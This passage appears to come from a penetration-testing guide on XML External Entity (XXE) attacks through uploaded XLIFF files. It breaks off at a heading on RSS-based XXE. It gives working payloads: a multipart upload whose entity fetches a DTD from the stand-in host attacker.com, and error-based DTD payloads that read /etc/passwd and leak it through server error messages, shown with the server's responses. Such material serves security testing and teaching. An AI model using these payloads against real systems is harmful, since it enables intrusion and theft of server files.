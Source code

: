 Despite the error, a hit is recorded on Burp Collaborator, indicating some level of interaction with the external entity.

Out of Band Data Exfiltration To exfiltrate data, a modified request is sent:

```
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

This approach reveals that the User Agent indicates the use of Java 1.8. A noted limitation with this version of Java is the inability to retrieve files containing a newline character, such as /etc/passwd, using the Out of Band technique.

Error-Based Data Exfiltration To overcome this limitation, an Error-Based approach is employed. The DTD file is structured as follows to trigger an error that includes data from a target file:

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

The server responds with an error, importantly reflecting the non-existent file, indicating that the server is attempting to access the specified file:

```javascript
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

To include the file's content in the error message, the DTD file is adjusted:

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

This modification leads to the successful exfiltration of the file's content, as it is reflected in the error output sent via HTTP. This indicates a successful XXE (XML External Entity) attack, leveraging both Out of Band and Error-Based techniques to extract sensitive information.

## RSS - XEE

Valid XML with RSS format to exploit an XXE vulnerability.

### Ping back

